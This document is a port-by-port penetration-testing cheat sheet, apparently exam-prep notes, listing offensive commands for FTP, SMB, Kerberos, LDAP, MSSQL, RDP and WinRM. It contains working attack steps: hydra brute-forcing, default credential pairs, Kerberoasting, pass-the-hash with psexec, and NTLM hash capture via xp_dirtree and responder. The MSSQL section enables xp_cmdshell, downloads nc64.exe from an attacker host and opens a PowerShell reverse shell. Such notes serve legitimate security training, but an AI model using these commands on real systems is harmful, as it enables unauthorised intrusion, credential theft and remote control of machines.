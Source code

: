 ## Enumeration Checklist

<set your variables>
target=
user=
pass=
ip=
domain=

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns

admin/admin
root/root
password/password
username/username


# 53 DNS

`dig @$ip version.bind CHAOS TXT`
`dig axfr @$ip $domain`     
`dnsenum $domain`

# 135 RCP

`rpcclient -U '' -N $ip`
`rpcclient -U '$user%$pass' $ip` 

> enumdomusers      #check the users on the DC
> queryuser <username>  #query the details of the user
> querydispinfo 

`nmblookup -A $ip`

# 445 SMB

<Without Pass>

`enum4linux -a $ip
`impacket-lookupsid $domain/$user@$domain -no-pass`

`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`
`smbclient -N -L //[ip]`
`smbclient //[ip]/[share] -N   #Enumerate Files`


<With Pass>
`lookupsid.py  $domain/$user:$pass@$domain`

lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users

psexec.py -hashes  :<ntlm hash>    $user@$ip

smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r

smbclient //$ip/C$ -U '$user%$pass' -c 'dir'

netexec smb [host/ip] -u [user] -p [pass] --shares

netexec smb [host/ip] -u guest -p '' --shares

smbclient //[ip]/[share] -U [username] [password]

netexec smb -u [user] -p [pass] -M spider_plus

smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth

manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]


# 88 Kerberoas

nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip

kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid

impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200 

impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100

kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt 

kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100


# 389 LDAP

<Without Pass>
ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam" 

ldapsearch -x -H ldap://$ip -s base namingcontexts

impacket-lookupsid '$domain/guest'@$domain -no-pass

<With Pass>
lookupsid.py  $domain/$user:$pass@$domain
ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts

bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip
neo4j console                #config file; /usr/share/neo4j/conf
./Bloodhound  --no-sandbox


# 1433 MSSQL

impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth  #Windows login
impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login

SELECT @@version   #Current MSSQL Version	
SELECT DB_NAME()   #Current Database
SELECT name FROM sys.databases;  #show DBs	
enum_db            #show DBs

select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables  

#cmd command	

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell ' whoami /priv '

xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell
xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"
xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"
	
hash capture

xp_dirtree \\192.168.1.210\shared
responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

enum_impersonate  #impersonate
EXECUTE AS LOGIN = 'username to impersonate'  #impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate


<MSSQL Cheetsheet>

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard

# 5985 WINRM

evil-winrm -i $ip -u $user -p $pass
